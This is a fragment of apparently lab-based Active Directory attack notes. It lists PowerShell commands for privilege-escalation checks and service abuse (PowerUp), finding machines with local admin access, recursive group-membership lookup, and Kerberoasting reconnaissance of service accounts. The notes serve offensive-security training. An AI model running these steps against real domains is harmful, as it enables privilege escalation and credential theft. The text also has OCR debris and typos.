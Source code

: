 cc cxdxsx

Powerups
~~~
Invoke-Allchecks
~~~

 Abusing services
 ~~~
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student21'
~~~

To identify a machine in the domain where machine has local administrative access.

~~~
Find-LocalAdminAccess -Verbose
~~~

The ActiveDirectory module command Get-
ADPrinicpalGroupMemebsrhip does not provide ability to recursively look for group membership.

Therefore, we can use the following simple PowerShell code from InvisiShell. Note that the code uses the
ActiveDirectory module so that should be imported first:

~~~ 
function Get-ADPrincipalGroupMembershipRecursive ($SamAccountName)
{
$groups = @(Get-ADPrincipalGroupMembership -Identity $SamAccountName |
select -ExpandProperty distinguishedname)
$groups
if ($groups.count -gt 0)
{
foreach ($group in $groups)
{
Get-ADPrincipalGroupMembershipRecursive $group
}
}
}
~~~




## Kerberoast

Find user accounts used as service accounts

Active  Directory module

~~~
Get-ADUser -Filter { ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
~~~

Powerview

~~~
Get-DomainUser -SPN
~~~
